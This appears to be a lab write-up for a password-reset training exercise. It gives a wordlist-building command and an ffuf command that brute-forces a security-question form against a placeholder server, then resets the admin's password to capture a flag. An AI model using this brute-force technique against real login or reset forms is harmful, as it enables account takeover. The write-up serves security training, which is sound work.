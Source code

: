 # Vulnerable Password Reset

### Which city is the admin user from?

This assessment has a web application with a password reset function that has a security question. In order to try to get the password, we'll try to use a wordlist containing city names.

**Step 1** - Get the wordlist:

* Download the full [CSV wordlist](https://github.com/datasets/world-cities/blob/main/data/world-cities.csv)
* Reduce the wordlist to contain only city names
  *   ```bash
      cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
      ```



**Step 2** - Intercept the Security Question POST Request:

* Use Burp Suite to intercept the Request

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Brute-force the Security Question:

* With the POST Request information build the following ffuf command:
  *   {% code overflow="wrap" %}
      ```bash
      ffuf -w ./city_wordlist.txt -u http://SERVER_IP:SERVER_PORT/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=PHP_SESSION_ID" -d "security_response=FUZZ" -fr "Incorrect response."

      ```
      {% endcode %}



<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Reset the admin user's password on the target system to obtain the flag.

**Step 1** - Use the city discovered to answer the first question to reset the admin's password

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Change the password

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Step 3** - Login with the new credentials to get the flag!

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
